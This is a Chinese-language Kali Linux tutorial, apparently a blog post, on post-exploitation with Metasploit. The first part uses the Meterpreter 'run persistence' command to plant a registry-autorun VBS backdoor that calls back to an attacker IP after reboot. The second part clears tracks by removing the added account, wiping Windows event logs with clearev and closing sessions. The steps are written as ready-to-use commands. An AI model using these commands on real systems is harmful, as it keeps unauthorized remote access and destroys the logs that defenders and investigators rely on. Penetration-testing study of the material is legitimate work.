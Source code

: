 # 原创
：  【kali-权限提升】（4.2.7）社会工程学工具包：权限维持创建后门、清除痕迹

# 【kali-权限提升】（4.2.7）社会工程学工具包：权限维持创建后门、清除痕迹

**目录**

[一、权限维持创建后门](#%E4%B8%80%E3%80%81%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81%E5%88%9B%E5%BB%BA%E5%90%8E%E9%97%A8)

[1.1、概述：](#1.1%E3%80%81%E6%A6%82%E8%BF%B0%EF%BC%9A)

[1.2、过程：](#1.2%E3%80%81%E8%BF%87%E7%A8%8B%EF%BC%9A)

[二、清除痕迹](#%E4%BA%8C%E3%80%81%E6%B8%85%E9%99%A4%E7%97%95%E8%BF%B9)

[2.1、第一步：日志](#2.1%E3%80%81%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E6%97%A5%E5%BF%97)

[2.2、第二步：清理额外信息](#2.2%E3%80%81%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E6%B8%85%E7%90%86%E9%A2%9D%E5%A4%96%E4%BF%A1%E6%81%AF)

[2.3、第三步：MSF清理](#2.3%E3%80%81%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9AMSF%E6%B8%85%E7%90%86)

---


## 一、权限维持创建后门

> 
<h3>1.1、概述：</h3>
获取目标系统的访问权限后，如果目标用户破坏了该连接（重启），所以需要在此之前，创建一个后门来恢复与目标主机的连接，而无需再进入目标系统。，此时使用后门将允许自动重新与目标系统建立连接。


> 
<h3>1.2、过程：</h3>
激活Meterpreter会话
sessions -i 2
<hr/>
查看帮助命令
run persistence -h
<hr/>
结合不同的选项，创建一个持久后门
run persistence -U -A -i 10 - 8090 -r 192.168.190.149
<hr/>
输出的信息显示创建后门过程，在目标系统中创建了一个持久脚本（保存在C:\DOCUME~l\Test\LOCALS~I\Temp\lzXBdJvcpnD.vbs）并篡改注册表，该脚本会自动在目标主机上运行， 并将会建立第二个Meterpreter会话。
<hr/>
验证后门
关闭攻击会话，并重启目标机
监听目标，重启后能上线获得攻击会话
<hr/>
注
就算远控木马文件payload.exe被清除，但后门还在
如果后门脚本、注册表注册项清除，将无法再控制


---


---


---


---


## 二、清除痕迹

（如果提示：stdapi_sys_eventlog_clear：操作失败：访问被拒绝）

（操作前都是需要提权的，如getsystem提取，或者查看补丁信息后提权）

> 
<h3>2.1、第一步：日志</h3>
为了不暴露攻击者的痕迹行为，需要清除系统事件
打开 Windows 事件查看器（可以看到日志信息）
直接在控制面板搜

 <img alt="" height="609" src="https://img-blog.csdnimg.cn/d22d902e564d490890d36af859e2c90d.png" width="901"/>


### 2.2、第二步：清理额外信息

```
删除添加的账号
net user 添加的用户名 /del


退出目标服务器的shell
exit  或者  logoff


删除日志
clearev
```

### 2.3、第三步：MSF清理

```
退出meterpreter shell
exit


查看所有的MSF连接
sessions


关闭所有的MSF链接(或指定的)
sessions -K
```
